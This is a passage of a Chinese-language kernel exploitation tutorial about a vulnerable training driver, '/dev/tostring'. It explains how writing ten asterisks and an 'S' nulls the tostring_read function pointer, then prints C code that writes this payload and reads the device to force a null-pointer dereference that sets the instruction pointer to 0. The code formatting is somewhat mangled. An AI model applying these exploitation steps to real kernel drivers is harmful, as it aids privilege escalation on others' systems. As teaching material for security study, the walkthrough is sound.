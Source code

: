 ```
  `}`
`}`
kfree(bufk);
`}`
return len;
`}`
```

正如我们所见，在“ten '*'”后会出现一个“S”。这就会使函数指针tostring_read无效，而这一点对我们有力。

但是，在将其设置为null之后，我们需要读取它，以使其被取消引用。因此，我们需要读取该文件，以触发启用“tostring_read()！”命令。

 [![](https://p4.ssl.qhimg.com/t017a82412010c82cf6.png)](https://p4.ssl.qhimg.com/t017a82412010c82cf6.png)

我们开始编写开发程序。我们之前使用Python语言进行编写，现在我们换成C语言。

我们先写一个较为简单的以触发命令和清除函数指针。



```
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;fcntl.h&gt;
/**/
#define vulnerable_device "/dev/tostring"
/**/
void main(void)`{`
int fd;
char payload[15];
/**/
memset(payload, '*', 10);
/**/
payload[10] = 'S';
payload[11] = 0;
/**/
fd = open(vulnerable_device, O_RDWR);
if(fd &lt; 0)`{`
printf("Couldn't open device!");
`}`
/**/
write(fd, payload, 12);
`}`
```

目前一切都比较顺利，但我们仍需通过读取文件使其取消引用。

**read(fd, 0, 1);**

我们做到了，我们将其IP指针设置为0

 [![](https://p5.ssl.qhimg.com/t01a59ed9f340a45873.png)](https://p5.ssl.qhimg.com/t01a59ed9f340a45873.png)
